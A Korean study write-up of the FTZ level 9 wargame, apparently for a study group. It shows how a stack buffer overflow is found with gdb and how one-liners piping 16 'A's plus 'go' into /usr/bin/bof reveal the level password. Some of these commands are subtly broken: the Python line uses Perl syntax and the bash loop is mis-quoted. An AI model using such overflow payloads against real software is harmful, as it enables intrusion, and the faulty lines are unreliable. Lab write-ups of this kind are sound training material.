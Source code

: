 ## FTZ level9 풀이 

------------------------------------------

#### 01 문제 파악 

버퍼 오버플로우 입문! 

스택의 구조 ; 지역 변수가 스택에 배치되는 순서와 위치를 알자 

 ![1](C:\Users\96dks\Desktop\SCP_발표ppt_2018SV\3주차_180716월\사용자료\1.png)



#### 02 의도 분석 

키보드로 입력 받거나 데이터를 넣는 부분이 없음 (buf2 배열에 값을 입력하기 불가능한 상황)

→ 강제 입력 가능  

→ 특정 값을 원하는 메모리에 덮어쓸 수 있는가?  



#### 03 나의 풀이 

![3-1](C:\Users\96dks\Desktop\SCP_발표ppt_2018SV\3주차_180716월\사용자료\3-1.JPG)

buf와 buf2 배열 사이의 더미값이 얼마인지 몰라서 buf2에 go가 들어갈 때까지 위 과정을 반복했다. 

my-pass명령어를 입력하면 패스워드가 나온다. 



#### 04 다른 풀이

스택의 구성을 파악하기 위해 buf 배열과 buf2 배열 사이의 간격을 확인해야 한다. 

1. hint 파일을 베껴와서 tmp 폴더에 bof.c를 만들었다. 
2. (1) vi 편집기를 실행하여

![1](C:\Users\96dks\Desktop\1.JPG)

2. (2) 한글을 모두 제외한 후에 

   ![2](C:\Users\96dks\Desktop\2.JPG)



3. tmp 폴더에 컴파일 하고 gdb로 열었다. 

![3](C:\Users\96dks\Desktop\3.JPG)



4. 다음에서 lea 오피코드가 있는 두 부분을 따로 떼어보면 

   ![4](C:\Users\96dks\Desktop\4.JPG)

   1. > lea  eax, [ebp-40]
      >
      > lea  eax, [ebp-24]

      40  > 24로 바뀐다. 즉 buf배열에서 16바이트를 할당 받는다는 것을 알 수 있었다. 

       따라서 buf2에 넘어가도록 buf에 16개의 문자열를 넣은 후에 buf2에 넘어가는 초기 2바이트를 go로 넣어주면 된다.  

      다량의 문자열을 입력하는 방법은 아래 "05 새로 알게된 것 > 3) 스크립트를 이용한 문자열 입력 방법" 에 설명했다.




#### 05 새로 알게된 것

  1) <unistd.h> 헤더 : 유닉스 계열 시스템에서 시스템 콜을 하기 위해 사용하는 헤더파일

  2) 'id' 명령어 : uid, gid, groups의 권한을 알려준다

  3) 스크립트를 이용한 문자열 입력 방법

* 배시셸의 printf명령을 이용한 방법

  > [level9@ftz tmp]$ (for i in 'seq 1 16'; do printf "A"; done; printf "go"; cat) | /usr/bin/bof 

* 펄 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (perl -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 파이썬 스크립트를 이용한 방법

  > [level9@ftz tmp]$ (python -c 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 루비 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (ruby -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 



#### *참고자료 

* 여동기. 『문제 풀이로 배우는 시스템 해킹 테크닉』. 위키북스, 2015. 
* 우스이 토시노리 외 7인. 『CTF 정보보안 콘테스트 챌린지 북』. 위키북스, 2016. 